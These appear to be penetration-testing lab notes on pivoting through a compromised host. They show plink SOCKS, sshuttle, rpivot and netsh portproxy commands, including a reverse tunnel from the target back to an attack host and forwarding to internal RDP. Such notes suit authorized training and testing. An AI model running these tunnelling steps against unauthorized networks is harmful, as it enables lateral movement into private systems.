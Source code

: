 
## Plink (Part of putty suite) Windows Method

Setting up ssh socks proxy via plink
```cmd-session
plink -ssh -D 9050 ubuntu@10.129.15.50
```


## sshuttle

Installing
```shell-session
sudo apt-get install sshuttle
```

Running
```shell-session
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v
```
With this command, sshuttle creates an entry in our `iptables` to redirect all traffic to the 172.16.5.0/23 network through the pivot host.

Run commands like usual since we have the entry within iptables and traffic is being routed.

## Rpivot
https://github.com/klsecservices/rpivot

Starting from attack host
```shell-session
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Transferring rpivot via ssh
```shell-session
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

Running rpivot on pivot target
```shell-session
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```
We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

Connect via proxychains
```shell-session
proxychains firefox-esr 172.16.5.135:80
```

Connect to web server via http-proxy & NTLM Auth
```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```


## Netsh


port forwarding
```cmd-session
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

verify forwarding 
```cmd-session
netsh.exe interface portproxy show v4tov4
```
